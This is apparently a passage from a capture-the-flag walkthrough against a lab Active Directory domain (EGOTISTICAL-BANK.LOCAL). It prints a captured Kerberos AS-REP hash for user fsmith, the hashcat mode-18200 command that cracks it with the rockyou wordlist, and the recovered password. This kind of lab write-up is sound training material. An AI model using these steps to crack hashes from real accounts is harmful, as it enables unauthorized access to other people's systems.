




hashcat BF Kerb TGT
next step is to take our Kerb TGT hash and brute force it for its password with hashcatlets save our TGT hash to the file hashes
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:fb4e09de7f354d54190236d4413391cc$6372bb4ee5984d94f423e136420f9bb1d8f202129558e51e607881a2f3ee1848238cc00bcb687c10f0b99923e3ef72b10b8674bca265ae9543cc3b97518758585207f56d8949000e03a926e4c58944639375f09ff14232614702648b3bd3d9217ac214521b63c8c6f5b79c808b85d9d8b41f8e167ac6f262888cce44b75aadc1bf3f252c4130e88c2a346ac73ba1800597c8890eed1025fbe69b61724f5f46f7ba6a40a0bf89354590375f4aff31552d16c536a91e2fb4bad1e1d335f37918752701d8025b471149f21088885223d0e3fb709a167fcebe85f75d4bbf1de09afe7348933e10138ecfe1594c3a50ef619e7b7ec3dac78d772e7fd22a13137ec57e
to find out which module to use we can grep hashcat formats for the  string to find which module hashcat requires to crack Kerberos Hashes

18200 works here through trial and error

now to run hashcat:
hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt --force



PW: Thestrokes23